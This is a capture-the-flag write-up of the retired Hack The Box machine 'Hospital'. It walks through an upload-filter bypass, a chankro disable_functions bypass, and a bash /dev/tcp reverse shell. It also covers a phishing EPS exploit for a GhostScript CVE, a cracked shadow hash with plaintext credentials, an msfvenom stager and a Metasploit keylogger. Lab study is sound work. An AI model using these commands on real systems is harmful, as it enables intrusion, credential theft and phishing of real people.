



# HTB Hospital: Writeup

This is a retired medium machine and the operating system is Windows

## Step 1: Recon

First we start with an nmap scan (duh)

We get a few resaults

```
PORT     STATE  SERVICE           VERSION
22/tcp   open   ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   closed domain
88/tcp   open   kerberos-sec      Microsoft Windows Kerberos (server time: 2025-06-13 14:40:26Z)
135/tcp  open   msrpc             Microsoft Windows RPC
139/tcp  open   netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open   ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
443/tcp  open   ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
|_http-favicon: Unknown favicon MD5: 924A68D347C80D0E502157E83812BB23
445/tcp  open   microsoft-ds?
464/tcp  open   kpasswd5?
593/tcp  open   ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open   ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
1801/tcp open   msmq?
2103/tcp open   msrpc             Microsoft Windows RPC
2105/tcp open   msrpc             Microsoft Windows RPC
2107/tcp open   msrpc             Microsoft Windows RPC
2179/tcp open   vmrdp?
3268/tcp open   ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
3269/tcp open   globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
3389/tcp open   ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Issuer: commonName=DC.hospital.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-12T11:02:46
| Not valid after:  2025-12-12T11:02:46
| MD5:   1a78:23df:e077:32e9:e3b5:43d1:2224:2f61
|_SHA-1: 956a:7f99:c8bb:9793:b649:4cde:8d19:a090:45bd:6072
| rdp-ntlm-info:
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-13T14:41:15+00:00
5985/tcp open   http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp open   http              Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-06-13T14:41:19
|_  start_date: N/A
|_clock-skew: mean: 7h01m47s, deviation: 0s, median: 7h01m47s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required


```

There are 20 services running on the machine.

Looking at the two web services running we see that the website running on port 443 is **Roundcube**

The other one that is running on port 8080, is a login page.

We also can register in that website and after that we are presented with a file upload functionality.

## Step 2: Getting the nut out of the shell

We can see that the webpage works with php, so we try to upload a php webshell.

However, at the gates of the temple there stands a giant with a bat - extension filtering [audable gasp]

But the problem with giants is that they are dumb and know very little about php extension filtering.

So we throw our upload request into burpsuite and fuzz php file extensions.

Bim bim bam bam, we get a redirect to success.php instead of the previous failiure.php with **phar** file extension.

And there you stand, thinking the victory is yours, but suddenly... you realize... that you can't execute any commands [screaming loudly into the nearest pillow]

We can upload a phpinfo page and see what's up with that.

And there he is... The three headed dragon



This means that we can't use any dangerous functions...

## Step 3: Killing the Dragon and Getting to the Princess's Bed

For exactly this kind of situations, the gods of opensource developed a tool called **chankro**

### How does it work?

PHP in Linux calls a binary (sendmail) when the mail() function is executed. If we have putenv() allowed, we can set the environment variable "LD_PRELOAD", so we can preload an arbitrary shared object. Our shared object will execute our custom payload (a binary or a bash script) without the PHP restrictions.

We create a rev.sh file with the following contents

```
bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'
```

And generate a .phar file with chankro

```
python2 chankro.py --arch 64 --input rev.sh --output chan.phar --path /var/www/html
```

Upload the .phar file, listen for connections on specified port and bim bim bam bam we have a shell.

## Step 4: Getting root

Getting root is insanely easy, we see the kernel version, google it, find a critical vulnerability with a public exploit and own the hill without any problems.

## Step 5: Isn't it over?

After a little bit of celebration we notice that we haven't found any flags yet.

As we found a roundcube instanse on port 443, we see if we can log in.

Looking at the /etc/shadow file on the linux instance we see that there is one more user besides root that has a hash there - drwilliams

We take that hash and crack it with john the ripper. qwe123!@# - nice

We login to the roundcube with these credentials

**drwilliams@hospital.htb:qwe123!@#**

We have an unread email from drbrown talking about some needle visualization project, and they are waiting for us to send a eps file, so they can put it into GhostScript and visualize it.



## Step 6: Phishing our way into the Infrastructure

Doing a Google search with GhoscScript eps and exploit keywords, gives us an exploit that generates an eps file that when executed gives us Command Injection (CVE-2023-36664).

We set up a smb share with smbserver.py from impacket, and put a windows netcat static binary in it.

With the Public exploit we generate a eps file that will get the binary from the share, execute it and give us a reverse shell.

```
smbserver.py smbFolder $(pwd) -smb2support
```

```
python3 CVE_2023_36664_exploit.py --inject --payload 'cmd.exe /c \\\\10.10.14.46\\smbFolder\\nc64.exe -e cmd <attacker-ip> <port>' --filename file.eps
```

We send the file in an Email to drbrown, and moments later we see a hit on our smb share and a reverse shell on our listener.

## Step 7-1: Who is running Roundcube?

The obvious privilege escalation path lyes through the Roundcube webmail.

Navigating to the C:\ directory we see that there is a folder named xampp.

Xammp is a bundle for hosting a web server with sql,apache etc. servers. In that directory there is the htdocs directory that contains the Roundcube source. Doing icacls on it we see that our user has write permission. We write a webshell and browse to it from the port 443.

## Step 7-2: Metasploit & Keylogger

There is another way we can get to Administrator.

We see that there is an active session for user drbrown on the machine.

We can infer from this that the user is doing something on the box.

So we can get a keylogger on the machine and see if some credentials pop off.

We will use Metasploit and Msfvenom to get the keylogger in place.

### Step 1: Generating the Stager with Msfvenom

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<port> -f exe > shell.exe
```

### Step 2: Starting metasploit multi handler

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <port>
run
```


### Step 3: Running the Stager

```
copy \\<attacker-ip>\smbFolder\shell.exe C:\Users\drbrown.hospital\Desktop\shell.exe
```

```
.\shell.exe
```

### Step 4: Setting up The Keylogger

In the meterpreter shell we can see the running processes with the **ps** command.

We can see a process called **iexplorer.exe**, this is the browser.

We migrate to that process with

```
migrate <pid>
```

Now we can setup the keylogger and wait.

In the meterpreter shell

```
keyscan_start
```

And then after a minute or two

```
keyscan_dump
```

And we get the Administrator password.

We can then use evil-winrm to connect as Administrator

```
evil-winrm -i <victim-ip> -u Administrator -p <password>
```

And there you go:D


